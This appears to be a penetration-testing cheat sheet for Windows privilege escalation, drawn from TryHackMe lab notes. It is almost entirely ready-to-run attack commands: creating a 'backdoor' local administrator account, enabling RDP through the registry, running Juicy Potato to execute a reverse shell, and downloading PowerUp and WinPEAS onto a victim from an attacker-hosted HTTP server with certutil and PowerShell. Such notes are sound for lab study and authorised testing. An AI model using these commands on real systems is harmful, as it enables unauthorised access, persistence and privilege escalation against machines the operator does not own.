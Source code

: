 # Windows

**Copy info from here:** [**https://tryhackme.com/room/windowsprivesc20**](https://tryhackme.com/room/windowsprivesc20)



## **Gathering Info**

```
whoami /priv
```

```
net user
```

```
systeminfo
```

```
systeminfo | findstr /B /C:"OS Name" /C:"OS Version" /C:"System Type"
```

```
dir c:\
```

```
dir "c:\program files"
```

```
dir "c:\program files (x86)"
```

```
wmic service get name,startname
```

```
wmic service get name,pathname,startname | findstr "Program Files"
```

```
cacls *.exe
```

### **Whoami /priv**

| Finding                 | Comment                                                 | Examples                                                          |
| ----------------------- | ------------------------------------------------------- | ----------------------------------------------------------------- |
| SeImpersonatePrivilege  | Printspoofer - works on Windows 10 and Server 2016/2019 | [relevant.md](../../walkthroughs/tryhackme/relevant.md "mention") |
|                         |                                                         |                                                                   |
|                         |                                                         |                                                                   |

###

### **Recent Files**

Might be able to find interesting files by looking at what was recently accessed. Start -> run -> recent.

<figure><img src="../../.gitbook/assets/image (3) (5).png" alt=""><figcaption></figcaption></figure>



## Add User

**Victim**

```
net user backdoor pass!123 /add
net localgroup Administrators backdoor /add
reg add HKLM\SYSTEM\CurrentControlSet\Control\Lsa /v forceguest /t reg_dword /d 0 /f
```

**Enable RDP**

**Victim**

```
reg add "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server" /v fDenyTSConnections /t REG_DWORD /d 0 /f
```



## Privilege Escalation

**Juicy Potato**

* Download Juicy Potato to your attack machine
* Upload Juicy Potato to the target (ex: via FTP, SMB, HTTP, etc.)
* Create a reverse shell and upload it to the target (ex: via FTP, SMB, HTTP, etc.) use Juicy Potato to execute your reverse shell

```
wget https://github.com/ohpe/juicy-potato/releases/download/v0.1/JuicyPotato.exe
```

```
JuicyPotato.exe -l 5050 -p C:\path\to\reverse-shell.exe -t *
```



## **Automated Enumeration Tools**

| Name                      | Link                                                                                                                                                                                  |
| ------------------------- | ------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- |
| WinPeas                   |                                                                                                                                                                                       |
| PowerUp.ps1               | [https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/Privesc/PowerUp.ps1 ](https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/Privesc/PowerUp.ps1) |
| Windows Exploit Suggester | [https://github.com/AonCyberLabs/Windows-Exploit-Suggester.git](https://github.com/AonCyberLabs/Windows-Exploit-Suggester.git)                                                        |
|                           |                                                                                                                                                                                       |
|                           |                                                                                                                                                                                       |



## PowerUp.ps1

**Examples**

[#privilege-escalation](../../walkthroughs/tryhackme/steel-mountain.md#privilege-escalation "mention")

**Setup**

**Kali**

```
wget https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/Privesc/PowerUp.ps1 
python2 -m SimpleHTTPServer 81
```

**Windows**

```
certutil -urlcache -f http://10.10.228.214:81/PowerUp.ps1 PowerUp.ps1 
. .\PowerUp.ps1 
Invoke-AllChecks
```





## Windows Exploit Suggester

**Examples**

[hackpark.md](../../walkthroughs/tryhackme/hackpark.md "mention")

**Setup**

Run command then paste output back to Kali in a file called systeminfo.txt

**Victim**

```
systeminfo
```

**Kali**

```
git clone https://github.com/AonCyberLabs/Windows-Exploit-Suggester.git 
cd Windows-Exploit-Suggester/ 
python3.9 windows-exploit-suggester.py --update 
python3.9 windows-exploit-suggester2.py --database 2022-12-03-mssb.xls --systeminfo systeminfo.txt
```

## **WinPeas**

**Examples**

[hackpark.md](../../walkthroughs/tryhackme/hackpark.md "mention")

**Setup**

**Kali**&#x20;

```
wget https://github.com/carlospolop/PEASS-ng/releases/download/20221127/winPEASx64.exe 
python2 -m SimpleHTTPServer 82
```

**Victim**&#x20;

```
cd C:\Windows\Temp
powershell "(New-Object System.Net.WebClient).Downloadfile('http://$KALI:82/winPEASx64.exe','winPEASx64.exe')" 
winPEASx64.exe
```

